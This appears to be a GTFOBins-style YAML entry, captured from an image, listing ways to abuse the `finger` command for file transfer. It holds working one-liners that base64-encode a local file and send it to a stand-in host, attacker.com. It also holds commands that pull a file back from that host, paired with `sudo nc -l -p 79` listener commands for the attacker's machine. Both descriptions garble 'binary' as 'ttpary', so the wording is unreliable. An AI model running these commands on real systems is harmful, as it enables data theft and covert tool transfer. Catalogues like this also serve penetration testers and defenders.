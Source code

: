 ```yaml
---
description: |
  `finger` hangs waiting for the remote peer to close the socket.
functions:
  file-upload:
    - description: Send a ttpary file to a TCP port. Run `sudo nc -l -p 79 | base64 -d > "file_to_save"` on the attacker box to collect the file. The file length is limited by the maximum size of arguments.
      code: |
        RHOST=attacker.com
        LFILE=file_to_send
        finger "$(base64 $LFILE)@$RHOST"
  file-download:
    - description: Fetch remote ttpary file from a remote TCP port. Run `base64 "file_to_send" | sudo nc -l -p 79` on the attacker box to send the file.
      code: |
        RHOST=attacker.com
        LFILE=file_to_save
        finger x@$RHOST | base64 -d > "$LFILE"
---
```

